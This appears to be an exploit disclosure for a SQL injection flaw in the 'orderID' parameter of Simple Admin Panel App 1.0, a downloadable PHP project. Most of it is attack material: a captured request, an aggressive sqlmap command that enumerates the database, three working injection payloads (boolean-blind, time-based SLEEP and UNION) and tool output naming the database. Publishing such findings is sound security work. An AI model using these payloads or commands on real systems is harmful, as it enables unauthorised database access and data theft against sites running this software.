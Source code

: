 # Simple Admin Panel App - SQL Injection
+ **Exploit Title:** Simple Admin Panel App - SQL Injection
+ **Date:** 2024-02-02
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/simple-admin-panel-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/e651c111-a5f1-45f6-ab1b-5fbf972339af
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Simple Admin Panel App 1.0 allows SQL Injection via the 'orderID' parameter at "/admin_panel/adminView/viewEachOrder.php?orderID=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/admin_panel"
+ Click on the orders button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /admin_panel/adminView/viewEachOrder.php?orderID=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: text/html, /; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'orderID' parameter to dump the database.
```
sqlmap -r r.txt -p orderID --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: orderID (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: orderID=1 AND 4498=4498

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: orderID=1 AND (SELECT 6307 FROM (SELECT(SLEEP(5)))oJSi)

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: orderID=1 UNION ALL SELECT 38,38,38,38,38,38,38,38,CONCAT(0x7162626b71,0x536b674d43546b476f7847795453696a73474c556b5055756751776747736c45614a6f63464e4850,0x71626b6a71)-- -
---
[20:01:07] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:01:07] [INFO] fetching current database
current database: 'swiss_collection'
```
+ current database: `swiss_collection`

![Ekran görüntüsü 2024-02-02 040908](https://github.com/BurakSevben/CVEs/assets/117217689/db1587ac-7b20-414d-9775-e8a63fb8eeb2)
